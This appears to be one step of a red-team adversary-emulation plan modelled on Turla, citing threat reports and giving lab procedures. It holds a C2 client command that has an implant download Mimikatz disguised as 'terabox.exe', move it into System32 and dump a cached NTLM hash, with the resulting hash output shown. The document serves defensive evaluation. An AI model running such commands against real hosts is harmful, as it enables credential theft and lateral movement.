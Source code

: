 ### :microscope: Cited Intelligence

* <https://securelist.com/the-epic-turla-operation/65545/>
* <https://www.cisa.gov/uscert/ncas/analysis-reports/ar20-303a>
* <https://www.welivesecurity.com/2017/03/30/carbon-paper-peering-turlas-second-stage-backdoor/>
* <https://www.ncsc.admin.ch/ncsc/en/home/dokumentation/berichte/fachberichte/technical-report_apt_case_ruag.html>
* <https://www.gdata.pt/blog/2015/01/23926-analysis-of-project-cobra>

<br>

## Step 6 - Preparation for Lateral Movement onto Second Host 

:microphone: `Voice Track:`

Step 6 emulates Turla downloading and executing Mimikatz as `terabox.exe` 
after gaining persistance on the machine. Execution of Mimikatz will reveal a 
cached NTLM hash for the admin user `Adalwolfa`. This username/hash combination 
will be used in the next step for lateral movement.

---

### :biohazard: Procedures

* From your Kali C2 terminal, task the CARBON-DLL implant on the DC to download and execute mimikatz lsadump (note that the file gets downloaded to `C:\Windows\\Temp\` and then gets moved to `C:\Windows\System32` after download since the CARBON-DLL communications library module cannot download directly to privileged locations):

```bash
./evalsC2client.py --set-task a3e63922 '{"id": 3, "payload": "mimikatz.exe", "payload_dest": "C:\\Windows\\Temp\\terabox.exe", "cmd": "move C:\\Windows\\Temp\\terabox.exe C:\\Windows\\System32\\terabox.exe && C:\\Windows\\System32\\terabox.exe \"lsdu::go /ynot\" \"quit\""}'
```

* :exclamation: Verify that the NTLM hash for `adalwolfa` is included in the output.

```bash
grep 'NTLM : 07d128430a6338f8d537f6b3ae1dc136' logs.txt -C 5 -i
```

* This should return:
  * >    ```
    >    RID  : 00000456 (1110)
    >    User : Adalwolfa
    >
    >    * Primary
    >        NTLM : 07d128430a6338f8d537f6b3ae1dc136
    >        LM   : 
    >    Hash NTLM: 07d128430a6338f8d537f6b3ae1dc136
    >        ntlm- 0: 07d128430a6338f8d537f6b3ae1dc136
    >        lm  - 0: 95b8536c32208871930216e62d5e12d4
    >    ```
